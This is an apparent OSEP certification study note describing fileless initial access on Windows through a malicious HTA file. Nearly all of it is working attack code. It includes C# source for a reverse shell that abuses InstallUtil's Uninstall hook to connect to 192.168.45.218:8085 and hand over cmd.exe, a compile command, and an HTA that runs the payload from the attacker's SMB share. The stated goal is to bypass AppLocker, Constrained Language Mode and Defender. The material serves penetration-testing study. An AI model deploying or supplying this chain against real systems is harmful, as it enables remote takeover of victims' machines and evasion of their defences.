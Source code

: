# OSEP-Notes


## HTA Fileless Initial Access Reverse Shell (AppLocker + CLM + Defender Bypass) 

Scenario: You can make a user execute your malicious HTA files, but AppLocker, CLM, and Defender block all payloads.

To get a fileless reverse shell, one method that worked for me is via LOLBIN InstallUtil.

In attacker dev machine, write the following code to temp.cs:

```csharp
using System;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Net;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.IO;
using System.ComponentModel;
using System.Linq;
using System.Text;


namespace Exec
{
	public class Program
	{

		public static void Main()
		{
			Console.WriteLine("Hello From Main :p");

		}
	}
	
	[System.ComponentModel.RunInstaller(true)]
	public class Sample : System.Configuration.Install.Installer
	{
		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
		{
			StringBuilder strOutput = new StringBuilder();

			if (!String.IsNullOrEmpty(outLine.Data))
			{
				try
				{
					strOutput.Append(outLine.Data);
					streamWriter.WriteLine(strOutput);
					streamWriter.Flush();
				}
				catch (Exception err) { }
			}
		}
		static StreamWriter streamWriter;
		public override void Uninstall(System.Collections.IDictionary savedState) {
			using (TcpClient client = new TcpClient("192.168.45.218", 8085))
			{
				using (Stream stream = client.GetStream())
				{
					using (StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while (true)
						{
							strInput.Append(rdr.ReadLine());
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}
	}
		

}
```

Compile it with csc
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe .\temp.cs
```

Now, we can simply make the victim user execute the following hta:
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe /c \"C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U \\\\192.168.45.218\\pwn\\temp.exe\"");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
